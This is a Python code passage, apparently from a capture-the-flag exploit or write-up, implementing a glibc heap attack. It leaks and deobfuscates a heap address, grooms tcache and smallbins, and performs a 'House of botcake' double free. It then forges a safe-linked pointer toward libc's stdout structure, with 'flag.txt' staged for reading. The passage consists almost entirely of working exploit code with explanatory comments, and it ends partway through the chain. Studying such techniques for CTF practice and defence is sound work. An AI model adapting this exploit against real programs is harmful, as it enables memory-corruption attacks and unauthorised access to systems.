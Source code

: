 ```py
    show(0)
    show(1)
    #This printed out a heap address
    addr = show(2)
    free(3)
    #Parse, deobfuscate, and set heap base.
    addr = int(addr[5::-1].hex(),16)
    heap_leak = deobfuscate(addr)
    # seccomp actually alloc'd over a page of memory,
    # so base was -0x1000 from what I got.
    heap = (heap_leak >> 12 << 12) - 0x1000

    print("Heap Base: ", hex(heap))
    print("Cleaning tcaches + smallbins")
    for i in range(7):
        alloc(15, 16, 'A')
    for i in range(7):
        alloc(15, 0x60, 'A')
    for i in range(7):
        alloc(15, 0x70, 'A')
    for i in range(4):
        alloc(15, 0x80, 'A')
    for i in range(5):
        alloc(15, 0xc0, 'A')
    for i in range(2):
        alloc(15, 0xe0, 'A')
    for i in range(11):
        alloc(15, 0x20, 'A')
    for i in range(7):
        alloc(15, 0x10, 'A')
    alloc(15, 0x30, 'A')

    # Get environ and stdout
    environ = libc.symbols['environ']
    stdout = libc.symbols['_IO_2_1_stdout_']

    # House of botcake
    # Allocate 7 blocks of size 0x200, we’ll free them later
    # We can’t leak them as before, so place them into our mem array properly
    for i in range (7):
        alloc(9+i, 0x200, 'A')
    # Allocate our prev block and our victim block, along with the buffer
    alloc(6, 0x200, 'prev')
    alloc(7, 0x200, 'victim')
    alloc(8, 0x10, 'flag.txt\x00')
    # Fill the tcache!
    for i in range(7):
        free(9+i)

    # free our victim chunk
    free(7)
    # free our previous chunk (they are now consolidated)
    free(6)
    alloc(5, 0x200, 'X')  # Open up a slot in the tcache
    # double free vulnerablity, now victim is in the tcache!
    free(7)

    # We alloc the slightly larger chunk, getting a split of the [prev, victim] chunk
    # We’re going to write to it the necessary padding then:
    # 0x211, to preserve the size of the victim chunk
    # stdout ^ ((heap + 0x3320) >> 12), because we need to pass a safe-linked ptr.
    # Otherwise, malloc will crash. 0x3320 offset was found via debugging.
    alloc(1, 0x230, b'T'*0x208 + p64(0x211) + p64((stdout ^ ((heap + 0x3320) >> 12))))
```